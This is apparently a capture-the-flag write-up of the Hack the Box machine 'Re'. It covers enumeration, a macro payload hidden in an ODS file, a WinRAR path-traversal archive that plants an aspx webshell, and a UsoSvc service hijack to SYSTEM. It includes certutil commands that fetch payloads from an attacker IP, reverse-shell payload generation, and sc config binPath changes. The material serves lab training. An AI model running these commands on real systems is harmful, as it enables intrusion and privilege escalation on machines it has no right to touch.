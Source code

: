 +++
author = "Nick"
categories = ["hack the box", "ods", "odt", "macro", "reverse shell", "meterpeter", "smbclient", "msfpc", "evil-WinRAR", "certutil", "usosvc", "zip slip"]
date = 2020-02-01T11:00:00Z
description = ""
draft = false
thumbnail = "/images/2019/12/re.png"
slug = "hack-the-box-re"
summary = "Welcome back! Today we will be doing the machine 'Re' over on Hack the Box. Let's jump in!"
tags = ["hack the box", "ods", "odt", "macro", "reverse shell", "meterpeter", "smbclient", "msfpc", "evil-WinRAR", "certutil", "usosvc", "zip slip"]
title = "Hack the Box - Re"

+++


Welcome back! Today we will be doing the machine 'Re' over on Hack the Box. Let's jump in!

We start with our normal ```nmap``` scan: ```nmap -sC -sV -oA re_initial 10.10.10.144```. We get back a small listing of results:

```
Nmap scan report for 10.10.10.144
Host is up (0.053s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Visit reblog.htb
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 48s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-10-22T19:52:12
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.32 seconds
```

We see there is a hostname leaked to us on port 80. We'll add that to our host lists. The port amount are fairly limited so we'll repeat the scan but against all ports. Meanwhile, we'll visit port 80 and see what is being hosted.

When we get to the site, we are immediatly redirected to reblog.htb. When we start to investigate the site we see it's a standard blog. We see that re.htb is listed on the bottom so we'll add that to our host file as well. Each posting is listed by date. So we'll start to enumerate this by year in addition to our normal enumeration process. 

We start with enumerating the year:
```gobuster dir -u http://reblog.htb -w /usr/share/wordlists/SecLists/Fuzzing/4-digits-0000-9999.txt```
We only got back 2019 as a directory. 

Next we'll enumerate the month:
```gobuster dir -u http://reblog.htb/2019/ -w ~/Documents/htb/re/0-99.txt```
Only 03 and 04 are months with entries.

Now the days of each month:
03 contained 4 total entries: 10, 15, 20, 31.
04 contained 2 total entries: 10, 4.

Now we could have done that entire process with ```wfuzz``` or a single listing with recurssion, but I'll leave that up to you :). The above match the amount of posts entered so there was no hidden posts. In addition to this we'll also do a standard enumeration pass with a common directories list:
```gobuster dir -u http://reblog.htb/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 40```.
We see one additional directory called ```assets``` but nothing further. We might need to come back and run a second pass. While we read through the blog we also gain three usernames - Coby, Kenny and Malware. Maybe we can use these usernames to null past the SMB login.

We will try to use ```smbmap``` to take a peek:
```smbmap -u kenny -p 'null' -H 10.10.10.144```

We get back one location.

![](/images/2019/10/image-93.png)

When we connect to the location we see there is nothing there. We can however upload files to the location but they are removed / deleted shortly after. Now the first post on the reblog talks about ods Phishing Attempts. That there are rules in place to analyze phishing files that we put to in the malware drop box. We might want to try uploading a hidden payload into an [ODS file](https://fileinfo.com/extension/ods) (Open Office Document Spreadsheet) and upload it to the dropbox.

We will create a payload using ```Metasploit```. There is a ncie little blog post over on Rapid 7's blog on this topic. You can find it [here](https://blog.rapid7.com/2017/03/08/attacking-microsoft-office-openoffice-with-metasploit-macro-exploits/).

![](/images/2019/10/image-94.png)

After we've crafted the payload and upload it to the share, we don't seem to get any connection back. Now we know from reading the blog post that the yara rules will detect any 'run of the mill' things. I would consider a pre-made MSF payload to be pretty run of the mill. So we can craft our own payload. 

The idea is to use the above created .ods file and enter our own shell code inside it. We know it's a Windows machine so it won't have netcat on it, so we'll need to get it. We need a way to download netcat onto the machine. Then we need to have the payload execute our commands.

So first we'll changed the .ods extension to a .zip and extract the contents. We then dig into the directory created to get to the file called Module1.xml: ```/msf/Basic/Standard/Module1.xml```. We then need to modify the ```Sub OnLoad``` function to execute our code rather than the Metasploit code.

![](/images/2019/10/image-95.png)

We then upload the file to the malware share and wait..

![](/images/2019/11/image-63.png)

Our listener lights up and we have a shell! We snag our user flag from Luke's Desktop and start to enumerate internally. In the Luke's Downloads folder we see a few installers:

![](/images/2019/12/image.png)

What immediately stands out is WinRar. [This CVE](https://nvd.nist.gov/vuln/detail/CVE-2018-20250) came to mind almost immediately since I've seen it in the past. If you've not seen it before some quick googling of 'CVE + WinRar' would turn up this result as well. Since we already know this has a high likleyhood of being our next entry point, we can jump over to [Evil-WinRAR](https://github.com/manulqwerty/Evil-WinRAR-Gen). The trick here is to get the file to execute as our admin. Some basic internal enumeration shows us that we have ```IIS``` installed. We can combine that with the knowledge of the ```proj_drop``` folder to get us an executable location. With this knowledge we can craft a webshell payload and leverage that to pivot.

First we have to craft our payload. We'll use ```MSFPC``` or the traditional ```MSFVenom``` whichever you'd like.

```msfpc aspx tun0 4444```

![](/images/2019/12/mfspc.gif)

We then need to add this payload to a zip file with a traveral path.

```zip rf.zip ../../../../../../../../inetpub/wwwroot/blog/rf.aspx```
You'll need to create the path locally as well.

We're going assume that the site name is blog in this scenario and attempt to have the page extracted there.

Once we've created our zip we can use ```Evil-WinRAR``` to 'weaponize' it.

```python3 evilWinRAR.py -e rf.zip -g rf.txt -p 'c:\proj_drop\' -o rf.rar```

Once we've created our malicous payload we can download it with ```certutil.exe``` like before.

```certutil.exe -urlcache -split -f "http://10.10.15.177/rf.rar" C:\Users\luke\Documents\ods\rf.rar```

![](/images/2019/12/payloadup.gif)

Once we upload it we wait for our session to come back. The blog does note that it is restarted every 4 minutes if it doesn't seem to be working. Once our session lights up we have a shell as ISUR. We get our shell and see if we can snag some tokens with ```incognito```.

![](/images/2019/12/image-1.png" caption=")

We don't seem to have any that we can take. But our enumeration shows that we have ```Sysinternals``` installed. We can use ```accesschk``` to see what permissions we might have. We see that ```SERVICE``` has access to ```UsoSvc```.

![](/images/2019/12/image-2.png)

And we know that [UsoSvc is exploitable](https://www.atredis.com/blog/cve-2018-0952-privilege-escalation-vulnerability-in-windows-standard-collector-service). We can create a standard .exe MSF payload and upload it to a directory, then change our path for UsoSvc to it. We then restart the service and should get a shell back as system.

Create our payload:
```msfpc windows tun0 4444```

Upload our payload:
```certutil.exe -urlcache -split -f "http://10.10.15.177/foobar.exe" C:\temp\foobar.exe```

Change our Executable Path:
```sc config usosvc binPath="C:\temp\foobar.exe"```

Restart our service:
```sc stop usosvc```
```sc start usosvc```

We then see our new session light up as system!

![](/images/2019/12/image-4.png)

We head to the Administrator desktop and grab our root flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

